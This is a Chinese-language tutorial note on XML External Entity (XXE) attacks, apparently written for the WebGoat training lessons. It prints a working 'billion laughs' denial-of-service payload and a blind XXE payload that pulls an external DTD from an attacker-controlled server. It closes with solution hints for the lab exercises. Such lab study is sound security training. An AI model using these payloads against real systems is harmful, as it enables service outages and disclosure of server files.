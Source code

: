 # XXE

### 概念

这节课将教您如何执行XML外部实体攻击，以及如何滥用和保护它。

**目标**

- 用户应该具有基本的XML知识

- 用户将理解XML解析器是如何工作的

- 用户将学习执行XXE攻击和如何保护它

  

[XML实体注入学习](jianshu.com/p/a1ea825aa485)

### 什么是XML实体?



XML实体允许定义将在解析XML文档时由内容替换的标记。一般有三种实体:

- 内部实体

- 外部实体

- 参数实体。

一个实体必须在文档类型定义(DTD)中创建，让我们从一个例子开始:

```xml
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE author [
  <!ELEMENT author (#PCDATA)>
  <!ENTITY js "Jo Smith">
]>
<author>&js;</author>
```

所以无论你在哪里使用实体&js;解析器将用实体中定义的值替换它。

### 什么是XXE注入?

XML外部实体攻击是针对解析XML输入的应用程序的一种攻击。当包含对外部实体的引用的XML输入被弱配置的XML解析器处理时，就会发生这种攻击。这种攻击可能导致机密数据泄露、拒绝服务、服务器端请求伪造、从解析器所在机器的角度进行端口扫描，以及其他系统影响。

攻击可以包括使用系统标识符中的file:  scheme或相对路径公开本地文件，这些文件可能包含密码或私有用户数据等敏感数据。由于攻击是相对于处理XML文档的应用程序发生的，所以攻击者可以使用这个受信任的应用程序转向其他内部系统，可能通过http(s)请求披露其他内部内容，或者对任何未受保护的内部服务发起CSRF攻击。在某些情况下，可以通过解除对恶意URI的引用来利用容易出现客户端内存损坏问题的XML处理器库，这可能允许在应用程序帐户下执行任意代码。其他攻击可以访问可能不会停止返回数据的本地资源，如果没有释放太多的线程或进程，可能会影响应用程序的可用性。



一般来说，我们可以区分以下类型的XXE攻击:

- Classic:在这种情况下，外部实体包含在局部DTD中

- Blind:响应中不显示输出和错误

- Error :尝试在错误消息中获取资源的内

### 现代其他框架

在现代REST框架中，服务器可能能够接受您作为开发人员没有考虑到的数据格式。因此，这可能导致JSON端点容易受到XXE攻击。



# XXE DOS 攻击

什么是DOS攻击



 使用相同的XXE攻击，我们可以对服务器执行DOS服务攻击。这种攻击的一个例子是: 

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

当XML解析器加载这个文档时，它会看到它包含一个根元素“lolz”，其中包含文本“&lol9;”。然而，“&lol9”是一个被定义的实体，它扩展成一个包含10个“&lol8”字符串的字符串。每个“&lol8”字符串都是一个已定义的实体，它扩展为10个“&lol7”字符串，依此类推。在处理完所有的实体扩展之后，这一小块(< 1 KB) XML实际上将占用近3 gb的内存。

这被称为“十亿笑”，更多信息可以在这里找到:https://en.wikipedia.org/wiki/billion_laughing



### Blind XXE

在某些情况下，您将看不到任何输出，因为尽管您的攻击可能已经奏效，但该字段并未反映在页面的输出中。 或者您尝试读取的资源包含非法XML字符，这会导致解析器失败。 让我们从一个示例开始，在这种情况下，我们引用一个由我们自己的服务器控制的外部DTD。 

作为攻击者，您可以控制WebWolf（可以是您控制下的任何服务器。），例如，您可以使用该服务器通过http://192.168.56.101:9090/landing对其进行ping操作

我们如何使用此端点来验证我们是否可以执行XXE？ 

我们可以再次使用WebWolf托管一个名为Attack.dtd的文件，并使用以下内容创建该文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'http://192.168.56.101:9090/landing'>
```

 现在提交表单，将xml更改为： 

```
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://192.168.56.101:9090/WebWolf/files/attack.dtd">
%remote;
]>
<comment>
  <text>test&ping;</text>
</comment>
```

 现在在WebWolf浏览到“传入请求”，你会看到 

```
{
  "method" : "GET",
  "path" : "/landing",
  "headers" : {
    "request" : {
      "user-agent" : "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0",
    },
  },
  "parameters" : {
    "test" : [ "HelloWorld" ],
  },
  "timeTaken" : "1"
}
```

 所以有了XXE，我们可以ping我们自己的服务器，这意味着XXE注入是可能的。所以使用XXE注入我们基本上可以达到和开始使用curl命令时一样的效果。 



# 解题

* lesson3

  

 在提交表单时，您将在照片中添加一条注释，并尝试执行带有注释字段的XXE注入。试着列出文件系统的根目录。 

![](img/XEE1.png)

* lesson4

  修改content-Type类型json修改为xml

  ![](img/XEE3.png)

  ![](img/XEE2.png)
  
  
